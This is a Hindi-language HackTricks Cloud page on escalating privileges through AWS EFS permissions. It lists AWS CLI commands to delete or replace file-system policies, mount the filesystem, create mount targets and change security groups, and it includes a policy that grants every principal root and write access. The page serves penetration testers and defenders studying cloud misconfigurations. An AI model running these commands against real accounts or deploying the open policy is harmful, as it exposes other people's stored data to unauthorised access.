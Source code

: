 # AWS - EFS विशेषाधिकार वृद्धि

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PR जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## EFS

अधिक **EFS के बारे में जानकारी**:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

ध्यान रखें कि EFS को माउंट करने के लिए आपको उस सबनेटवर्क में होना चाहिए जहां EFS उजागर है और आपके पास इसका उपयोग करने की अनुमति है (सुरक्षा समूह)। यदि ऐसा हो रहा है, तो डिफ़ॉल्ट रूप से आप इसे माउंट कर सकेंगे, हालांकि, यदि यह IAM नीतियों से संरक्षित है तो आपको इसका उपयोग करने के लिए यहां उल्लिखित अतिरिक्त अनुमतियाँ होनी चाहिए।

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

इनमें से किसी भी अनुमति के साथ एक हमलावर **फ़ाइल सिस्टम नीति को बदल सकता है** ताकि आपको इसका **उपयोग करने की अनुमति मिले**, या बस इसे **हटा दे** ताकि **डिफ़ॉल्ट उपयोग** दिया जाए।

नीति को हटाने के लिए:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
```
इसे बदलने के लिए:
```
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

इस अनुमति के साथ एक हमलावर **EFS को माउंट** कर सकेगा। यदि EFS को माउंट करने वाले सभी व्यक्तियों को डिफ़ॉल्ट रूप से लिखने की अनुमति नहीं दी गई है, तो उसके पास केवल **पढ़ने का अधिकार** होगा।
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
अतिरिक्त अनुमतियाँ `elasticfilesystem:ClientRootAccess` और `elasticfilesystem:ClientWrite` का उपयोग किया जा सकता है **माउंट किए जाने के बाद** फ़ाइल सिस्टम के अंदर **लिखने** और **रूट के रूप में पहुंचने** के लिए।

**संभावित प्रभाव:** फ़ाइल सिस्टम में संवेदनशील जानकारी को ढूंढकर अप्रत्यक्ष प्रिविलेज उन्नति।

### `elasticfilesystem:CreateMountTarget`

यदि आपके पास एक **सबनेटवर्क** में है जहां EFS का **कोई माउंट टारगेट** मौजूद नहीं है। तो एक हमलावर बस इस अधिकार के साथ अपने सबनेट में एक **बना सकता है**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष प्रिविलेज उन्नति।

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

एक स्थिति में जहां हमलावर को यह पता चलता है कि EFS में उसके सबनेटवर्क में माउंट टारगेट है लेकिन **कोई सुरक्षा समूह यातायात की अनुमति नहीं दे रहा है**, तो वह **उसे बस उसे बदल देगा चयनित सुरक्षा समूहों को संशोधित करके**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**संभावित प्रभाव:** फाइल सिस्टम में संवेदनशील जानकारी का पता लगाकर अप्रत्यक्ष प्रिविलेज उन्नति।



<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

